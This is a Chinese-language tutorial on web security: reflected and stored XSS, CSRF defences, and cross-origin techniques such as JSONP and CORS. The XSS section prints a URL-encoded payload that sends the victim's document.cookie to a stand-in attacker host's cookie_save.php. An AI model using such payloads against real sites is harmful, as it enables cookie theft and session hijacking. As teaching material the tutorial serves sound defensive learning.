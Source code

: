 # 安全
## XSS攻击（跨站脚本攻击）
XSS(Cross Site Scripting)，跨站脚本攻击，XSS是常见的Web攻击技术之一。所谓的跨站脚本攻击指得是：恶意攻击者往Web页面里注入恶意script代码，用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取cookie信息、会话劫持等各种攻击。
### 反射型漏洞     
**一，例子说明**：    

1）通过程序参数输出传递的参数到HTML页面，则打开下面的网址将会返回一个消息提示：
请求：

```
http://你的网站/xss/message.php?send=Hello,World www.111cn.net!
```
返回：

```
Hello,World www.111cn.net!
```
2）如果此程序没有经过过滤等安全措施，则它将会很容易受到攻击。假如我们在原程序的URL的参数为，替换为我们用来测试的代码：
请求：

```
http://www.111cn.net /xss/message.php?send=<script>alert(‘xss’)</script>
```
返回：

```
<script>alert(‘xss’)</script>
```
这样，用户在浏览器打开的时候，就会运行我们的弹框了。由于这种漏洞需要发送一个包含了嵌入式JavaScript代码的请求，随后这些代码被反射给了发出请求的用户，因此被称为反射型XSS。攻击有效符合分别通过一个单独的请求与响应进行传送和执行，因为也被称为一阶XSS。    

**二，攻击案例：**
1. 用户正常登录Web应用程序，登录成功会得到一个会话信息的cookie：

```
Set-cookie:sessId = f16e1035c301aa099c971682d806c0c7 f16e1035c301aa099c971682d806c0c7
```

2. 攻击者将含有攻击代码的URL发送给被攻击人；

```
http://你的网站/xss/message.php?send=%3Cscript%3Edocument.write(‘%3Cimg%20height=0%20width=0%20src=%22 http://hacker.你的网站/xss/cookie_save.php%3Fcookie=%3D’%20+%20encodeURL(document.cookie)%20+%20’%22/%3E’)%3C/script%3E
```

3. 用户打开攻击者发送过来的ULR
4. Web应用程序执行用户发出的请求，同时也会执行该URL中所含的攻击者的JavaScript代码；
5. 例子中攻击者使用的攻击代码作用是将用户的cookie信息发送到cookie_save.php这个文件来记录下来；
6. 攻击者在得到用户的cookie信息后，将可以利用这些信息来劫持用户的会话。以该用户的身份进行登录     

### 存储式漏洞   
该类型是应用最为广泛而且有可能影响到Web服务器自身安全的漏洞，骇客将攻击脚本上传到Web服务器上，使得所有访问该页面的用户都面临信息泄漏的可能，其中也包括了Web服务器的管理员。
简单来说明一下存储型XSS的攻击基本流程:
1. 比如在某个论坛提供留言板功能，黑客在留言板内插入恶意的html或者Javascript代码，并且提交。
2. 网站后台程序将留言内容存储在数据中
3. 然后一个用户也访问这个论坛，并刷新了留言板，这时网站后台从数据库中读取了之前黑客的留言内容，并且直接插入在html页面中，这就可能导致了：黑客留言的脚本本身应该作为内容显示在留言板的，然后此时可能黑客的留言脚本被浏览器解释执行了。
4. 黑客的脚本可以用来他想要做的事情。例如通过javascript获取用户的cookie，根据这个cookie窃取用户信息，例如重新更改页面内容，假装让客户输入用户名，密码，然后提交到黑客的服务器等。
### 防御手段
不管是反射型还是存储型，XSS攻击的防御方法主要是两种 ：    
**一，对输入（和UR参数）进行过滤**   
**二，对输出进行编码**    
也就是对提交的所有内容进行过滤，对url中的参数进行过滤，过滤掉会导致脚本执行的相关内容；然后对动态输出到页面的内容进行html编码，使脚本无法在浏览器中执行。虽然对输入过滤可以被绕过，但是也还是会拦截很大一部分的XSS攻击。    
## CSRF
CSRF（Cross-site request forgery）跨站请求伪造，是一种对网站的恶意利用。尽管听起来像跨站脚本（XSS），但它与XSS非常不同，CSRF是利用了系统对页面浏览器的信任，XSS则利用了系统对用户的信任。。与XSS攻击相比，CSRF攻击往往不大流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比XSS更具危险性。        

**攻击案例：**    
1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。      

**防御手段：**       

目前防御 CSRF 攻击主要有三种策略：    

**1. 验证 HTTP Referer 字段：**    

根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。    
在通常情况下，访问一个安全受限页面的请求来自于同一个网站，比如需要访问 http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory，用户必须先登陆 bank.example，然后通过点击页面上的按钮来触发转账事件。这时，该转帐请求的 Referer 值就会是转账按钮所在的页面的 URL，通常是以 bank.example 域名开头的地址。而如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值，如果是以 bank.example 开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，拒绝该请求。      

**2. 在请求地址中添加 token 并验证：**    

CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。    

**3. 在 HTTP 头中自定义属性并验证：**     

这种方法也是使用 token 并进行验证，和上一种方法不同的是，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到 HTTP 头中自定义的属性里。通过 XMLHttpRequest 这个类，可以一次性给所有该类请求加上 csrftoken 这个 HTTP 头属性，并把 token 值放入其中。这样解决了上种方法在请求中加入 token 的不便，同时，通过 XMLHttpRequest 请求的地址不会被记录到浏览器的地址栏，也不用担心 token 会透过 Referer 泄露到其他网站中去。
# 跨域
**什么是跨域：**    
跨域问题的产生，源于浏览器的安全设置。浏览器对于javascript的同源策略的限制,例如a.cn下面的js不能调用b.cn中的js,对象或数据(因为a.cn和b.cn是不同域),这样可以一定程序上防止恶意程序的入侵，但也就引起了有正常需求的跨域问题了。

**同源策略：**    
请求的url地址,必须与浏览器上的url地址处于同域上,也就是域名,端口,协议相同，只要有一个不同，就产生了跨域问题。如果我在本地上的域名是study.cn,请求另外一个域名一段数据，这个时候在浏览器上会报错。
![image](https://raw.githubusercontent.com/labsInsight/blogs/master/Resources/3-safe-cross.png)
    
跨域的解决方案有很多，目前常用的有：
1. **图片ping或script标签跨域**    
一个网页可以从任何网页加载图像，不用担心跨域不跨域，所以，我们就可以利用图片不受“同源限制”这一点进行跨域通信。     
因为，我们可以利用JS创建一个新的Image对象，并把src属性设置为指向请求的地址，通过监听onload和onerror事件来确定是否接受到了响应。响应的数据可以是任意内容，但通常是像素图或204响应。   
这种方式优点是很明显的：兼容性非常好，缺点就是：只能发生GET请求，而且无法获取响应文本。
2. **JSONP跨域**    
jsonp 全称是JSON with Padding,是为了解决跨域请求资源而产生的解决方案,是一种依靠开发人员创造出的一种非官方跨域数据交互协议。   
利用<script>元素的这个开放策略，网页可以得到从其他来源动态产生的 JSON 资料，而这种使用模式就是所谓的 JSONP。用 JSONP 抓到的资料并不是 JSON，而是任意的JavaScript，用 JavaScript 直译器执行而不是用 JSON 解析器解析。
3. **CORS**    
跨域资源共享（ CORS ）机制允许 Web 应用服务器进行跨域访问控制，从而使跨域数据传输得以安全进行。浏览器支持在 API 容器中（例如 XMLHttpRequest 或 Fetch ）使用 CORS，以降低跨域 HTTP 请求所带来的风险。CORS 需要客户端和服务器同时支持。目前，所有浏览器都支持该机制。    
与 JSONP 不同，CORS 除了 GET 要求方法以外也支持其他的 HTTP 要求。服务器一般需要增加如下响应头的一种或几种：

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
Access-Control-Max-Age: 86400
```
跨域请求默认不会携带Cookie信息，如果需要携带，请配置下述参数：

```
"Access-Control-Allow-Credentials": true
"withCredentials": true
```

4. **window.name+iframe**    
window.name通过在iframe（一般动态创建i）中加载跨域HTML文件来起作用。然后，HTML文件将传递给请求者的字符串内容赋值给window.name。然后，请求者可以检索window.name值作为响应。
5. **window.postMessage()**    
HTML5新特性，可以用来向其他所有的 window 对象发送消息。需要注意的是我们必须要保证所有的脚本执行完才发送 MessageEvent，如果在函数执行的过程中调用了它，就会让后面的函数超时无法执行。
6. **修改document.domain跨子域**    
前提条件：这两个域名必须属于同一个基础域名!而且所用的协议，端口都要一致，否则无法利用document.domain进行跨域，所以只能跨子域。 在根域范围内，允许把domain属性的值设置为它的上一级域。例如，在”aaa.xxx.com”域内，可以把domain设置为 “xxx.com” 但不能设置为 “xxx.org” 或者”com”。
7. **WebSocket**    
WebSocket protocol 是HTML5一种新的协议。它实现了浏览器与服务器全双工通信，同时允许跨域通讯，是server push技术的一种很棒的实现。
8. **代理**    
同源策略是针对浏览器端进行的限制，可以通过服务器端来解决该问题：    
DomainA客户端（浏览器） ==> DomainA服务器 ==> DomainB服务器 ==> DomainA客户端（浏览器）   
### CORS跨域设置案例
我司采用的是CORS方案来进行跨域。    
CORS需要浏览器和服务器同时支持。整个CORS通信过程，都是浏览器自动完成，不需要用户参与。对于开发者来说，CORS通信与同源的AJAX通信没有差别，代码完全一样。浏览器一旦发现AJAX请求跨源，就会自动添加一些附加的头信息，有时还会多出一次附加的请求，但用户不会有感觉。**因此，实现CORS通信的关键是服务器。只要服务器实现了CORS接口，就可以跨源通信**。        
    
浏览器将CORS请求分成两类：简单请求（simple request）和非简单请求（not-so-simple request）。  
只要同时满足以下两大条件，就属于简单请求。

```
只要同时满足以下两大条件，就属于简单请求。

（1) 请求方法是以下三种方法之一：
    HEAD
    GET
    POST
    
（2）HTTP的头信息不超出以下几种字段：
    Accept
    Accept-Language
    Content-Language
    Last-Event-ID
    Content-Type：只限于三个值application/x-www-form-urlencoded、multipart/form-data、text/plain
```
#### 简单请求
对于简单请求，浏览器直接发出CORS请求。具体来说，就是在头信息之中，增加一个Origin字段。    

```
GET /cors HTTP/1.1
Origin: http://api.bob.com
Host: api.alice.com
Accept-Language: en-US
Connection: keep-alive
User-Agent: Mozilla/5.0...
```

服务器根据这个值，决定是否同意这次请求。    
如果Origin指定的源，不在许可范围内，服务器会返回一个正常的HTTP回应。浏览器发现，这个回应的头信息没有包含Access-Control-Allow-Origin字段，就知道出错了，从而抛出一个错误，被XMLHttpRequest的onerror回调函数捕获。注意，这种错误无法通过状态码识别，因为HTTP回应的状态码有可能是200。    
如果Origin指定的域名在许可范围内，服务器返回的响应，会多出几个头信息字段。

```
Access-Control-Allow-Origin: http://api.bob.com
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: FooBar
Content-Type: text/html; charset=utf-8
```

#### 非简单请求
非简单请求的CORS请求，会在正式通信之前，增加一次HTTP查询请求，称为"预检"请求（preflight）。

浏览器先询问服务器，当前网页所在的域名是否在服务器的许可名单之中，以及可以使用哪些HTTP动词和头信息字段。只有得到肯定答复，浏览器才会发出正式的XMLHttpRequest请求，否则就报错。    

服务器收到"预检"请求以后，检查了Origin、Access-Control-Request-Method和Access-Control-Request-Headers字段以后，确认允许跨源请求，就可以做出回应。
